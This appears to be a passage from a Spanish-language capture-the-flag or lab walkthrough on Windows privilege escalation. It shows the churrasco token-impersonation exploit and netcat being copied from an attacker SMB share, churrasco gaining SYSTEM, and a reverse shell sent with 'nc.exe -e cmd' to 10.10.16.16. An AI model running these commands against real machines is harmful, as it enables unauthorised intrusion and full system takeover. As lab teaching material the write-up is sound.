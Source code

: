 ```
C:\WINDOWS\Temp\test> copy \\10.10.16.16\smbFolder\churrasco.exe
```

Nos `copiamos` también el `netcat`

```
C:\WINDOWS\Temp\test>copy \\10.10.16.16\smbFolder\nc.exe
```

`Ejecutamos` el `binario` para comprobar que funciona correctamente

```
C:\WINDOWS\Temp\test>churrasco.exe -d "whoami"
churrasco.exe -d "whoami"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 472 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0xf18
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found SYSTEM token 0xf10
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
nt authority\system
```

Nos mandamos una `shell` a nuestro `equipo` mediante `netcat`

```
C:\WINDOWS\Temp\test>churrasco.exe -d "C:\WINDOWS\Temp\test\nc.exe -e cmd 10.10.16.16 1234"
churrasco.exe -d "C:\WINDOWS\Temp\test\nc.exe -e cmd 10.10.16.16 1234"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 472 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0xf18
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found SYSTEM token 0xf10
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```
